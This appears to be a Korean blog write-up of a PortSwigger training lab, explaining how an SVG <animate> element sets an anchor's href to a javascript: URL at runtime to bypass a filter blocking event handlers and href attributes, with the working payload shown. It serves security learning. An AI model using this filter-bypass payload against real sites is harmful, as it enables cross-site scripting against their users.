


+++
date = '2026-06-07T17:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS with event handlers and href attributes blocked'
summary = "이벤트 핸들러와 href 속성이 차단된 환경에서 SVG animate로 링크의 href를 동적으로 javascript URL로 바꾸는 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "SVG", "WAF Bypass", "PortSwigger", "Expert"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-with-event-handlers-and-href-attributes-blocked/'
+++

---

## 문제 분석

> **난이도**: `EXPERT`  
> **Lab**: [Reflected XSS with event handlers and href attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

> 

검색 기능에서 일부 태그는 허용되지만 모든 이벤트 핸들러와 앵커의 `href` 속성이 차단된다. `Click`이라는 문구를 가진 벡터를 시뮬레이션 사용자가 클릭했을 때 `alert()`를 호출하면 문제가 해결된다.

### XSS 진단

일반적인 태그를 검색어에 넣으면 `Tag is not allowed`, 이벤트나 `href`를 넣으면 `Attribute is not allowed` 응답이 반환된다. 반면 `<svg>`, `<a>`, `<animate>`, `<text>` 같은 일부 SVG 관련 요소는 허용된다.

SVG의 `<animate>` 요소는 `attributeName`으로 지정한 부모 요소의 속성값을 시간에 따라 바꿀 수 있다. 필터에 `href=`를 직접 작성하지 않으면서도 실행 시점에 앵커의 `href` 속성을 생성할 수 있다.

---

## 익스플로잇

다음 SVG를 검색어에 삽입한다.

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x=20 y=20>Click me</text>
  </a>
</svg>
```

`<animate>`가 부모 `<a>`의 `href`를 `javascript:alert(1)`로 설정한다. 응답 원문에는 차단 대상인 앵커의 `href` 속성이나 이벤트 핸들러가 직접 존재하지 않는다. 시뮬레이션 사용자가 `Click me`를 누르면 JavaScript URL이 실행된다.



`alert()`가 호출되며 문제가 해결된다.

---

## 정리

필터가 정적인 속성 문자열만 검사하면 브라우저가 런타임에 속성을 변경하는 기능을 놓칠 수 있다. SVG 애니메이션은 시각 효과뿐 아니라 속성값 자체를 바꿀 수 있으므로 실행 벡터가 된다. 허용 태그 기반 정책을 설계할 때는 요소 간 상호작용과 동적 속성 변경도 고려해야 한다.
